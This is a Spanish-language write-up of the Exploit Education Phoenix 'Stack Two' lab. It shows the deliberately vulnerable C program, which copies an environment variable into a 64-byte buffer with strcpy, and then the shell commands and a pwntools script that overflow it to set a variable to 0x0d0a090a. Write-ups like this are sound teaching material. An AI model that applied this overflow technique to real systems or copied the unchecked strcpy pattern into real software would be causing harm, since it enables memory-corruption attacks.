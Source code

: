 ```yaml
---
layout: single
title: "Stack Two"
permalink: /pwn/phoenix/stack-two/
parent: Phoenix
comments: true
excerpt: "Stack Two"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

En **Stack Two** se introduce el uso de variables de entorno y cómo pueden ser manipuladas para explotar un desbordamiento de buffer.


## Análisis del código fuente

El objetivo es modificar la variable changeme con el valor 0x0d0a090a. Para lograrlo, el programa copia sin validación el contenido de la variable de entorno ExploitEducation al buffer locals.buffer, lo que abre la puerta a un buffer overflow.


```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bathroom, and you are Finnish when you get
 * out, what are you when you are in the bathroom?
 *
 * European!
 */

#include <err.h>    // Biblioteca para manejo de errores (errx).
#include <stdio.h>  // Biblioteca estándar para entrada/salida.
#include <stdlib.h> // Biblioteca estándar para funciones generales como getenv() y exit().
#include <string.h> // Biblioteca para funciones de manipulación de cadenas como strcpy().
#include <unistd.h> // Biblioteca para funciones del sistema operativo POSIX.

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"
// Define un mensaje constante que se mostrará al inicio del programa.

int main(int argc, char **argv) { 
  // Función principal, recibe argumentos de línea de comandos.

  struct { 
    char buffer[64];          // Define un buffer de 64 bytes para almacenar datos.
    volatile int changeme;    // Variable que debe modificarse mediante un exploit.
  } locals;                   // Agrupa estas variables dentro de la estructura 'locals'.

  char *ptr; 
  // Apuntador para almacenar el valor de una variable de entorno.

  printf("%s\n", BANNER); 
  // Imprime el mensaje de bienvenida definido en BANNER.

  ptr = getenv("ExploitEducation"); 
  // Obtiene el valor de la variable de entorno "ExploitEducation".
  if (ptr == NULL) { 
    // Verifica si la variable de entorno no está configurada.
    errx(1, "please set the ExploitEducation environment variable"); 
    // Muestra un mensaje de error y termina el programa con el código de salida 1.
  }

  locals.changeme = 0; 
  // Inicializa la variable 'changeme' con el valor 0.

  strcpy(locals.buffer, ptr); 
  // Copia el contenido de la variable de entorno "ExploitEducation" en el buffer 'buffer'.
  // Vulnerabilidad: No verifica el tamaño del contenido, lo que permite un desbordamiento de buffer.

  if (locals.changeme == 0x0d0a090a) { 
    // Comprueba si el valor de 'changeme' coincide con el objetivo: 0x0d0a090a.
    puts("Well done, you have successfully set changeme to the correct value"); 
    // Si el valor es correcto, imprime un mensaje de éxito.
  } else { 
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n", locals.changeme); 
    // Si el valor no es el esperado, imprime el valor actual de 'changeme' y el valor deseado.
  }

  exit(0); 
  // Termina el programa correctamente con el código de salida 0.
}

```

**Ejecución del binario**

Si ejecutamos el binario sin definir la variable de entorno, aparece un mensaje de error:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

Definimos la variable con 64 caracteres de A y con esto ya nos da la respuesta de que la variable está en 0x00000000

```jsx
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a

```

**Confirmando el overflow**

Si añadimos BBBB (0x42 en ASCII) después de los 64 A, el valor de changeme cambia a 0x42424242: Esto confirma que estamos sobreescribiendo la variable.

```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x42424242, we want 0x0d0a090a

```
**Explotación**

Ahora sobreescribimos con el valor solicitado 0x0d0a090a, cuidando el endianness (little-endian en x86): \x0A\x09\x0A\x0D y con esto confirmamos que se logra el reto


```c
user@phoenix-amd64:/opt/phoenix/amd64$ export ExploitEducation=$(python -c 'print "A"*64 + "\x0A\x09\x0A\x0D"')
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-two 
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

**Explotación con Pwntools**

También podemos automatizar este proceso con un script en Python

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ # Define el payload
   5   │ payload = b"A" * 64
   6   │ payload += p32(0x0d0a090a)
   7   │ 
   8   │ # Establece conexión SSH
   9   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
  10   │ 
  11   │ # Configura la variable de entorno 'ExploitEducation'
  12   │ env_vars = {"ExploitEducation": payload}
  13   │ 
  14   │ # Ejecuta el programa remoto con la variable de entorno configurada
  15   │ process = ssh_connection.process(executable='/opt/phoenix/amd64/stack-two', env=env_vars)
  16   │ 
  17   │ # Captura y muestra la salida
  18   │ flag = process.recvall().decode()
  19   │ log.success("Output: " + flag)
  20   │ 
  21   │ # Cierra la conexión
  22   │ process.close()
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

Al ejecutar el exploit se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/2_stack-two]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process '/opt/phoenix/amd64/stack-two' on localhost: pid 583
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-two'!
[+] Receiving all data: Done (141B)
[*] Stopped remote process 'stack-two' on localhost (pid 583)
[+] Output: Welcome to phoenix/stack-two, brought to you by https://exploit.education
    Well done, you have successfully set changeme to the correct value
```

**Conclusión**

En Stack Two vimos cómo una variable de entorno puede ser aprovechada para provocar un desbordamiento de buffer y modificar variables internas del programa.

El reto refuerza dos ideas clave:

  - Las funciones inseguras como strcpy deben evitarse.

  - Variables de entorno pueden ser un vector de ataque si no se validan correctamente.

Con esta técnica pudimos manipular la variable changeme y completar el reto con éxito.